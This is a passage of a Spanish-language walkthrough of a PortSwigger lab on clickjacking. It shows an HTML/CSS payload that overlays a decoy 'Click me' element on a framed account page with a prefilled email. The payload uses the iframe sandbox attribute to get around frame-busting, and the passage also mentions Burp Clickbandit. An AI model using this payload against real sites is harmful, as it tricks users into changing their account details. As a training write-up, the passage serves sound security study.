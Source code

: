 Como vemos que todo funciona correctamente, vamos a `cambiarle` la `opacidad` a `0`

```
<style>
   iframe {
       position:relative;
       width: 500px;
       height: 700px;
       opacity: 0.3;
       z-index: 2;
   }
   div {
       position:absolute;
       top:450px;
       left:75px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://0a6a0005048fd811816ed403009c00d9.web-security-academy.net/my-account?email=pedro@gmail.com" sandbox="allow-forms"></iframe>
```

![](/assets/img/Clickjacking-Lab-3/image_12.png)

Otra forma alternativa sería usando la herramienta `Clickbandit` de `Burpsuite`, para usarla nos dirigimos a `Burpsuite` y pulsamos `Burp > Burp Clickbandit`

![](/assets/img/Clickjacking-Lab-3/image_13.png)

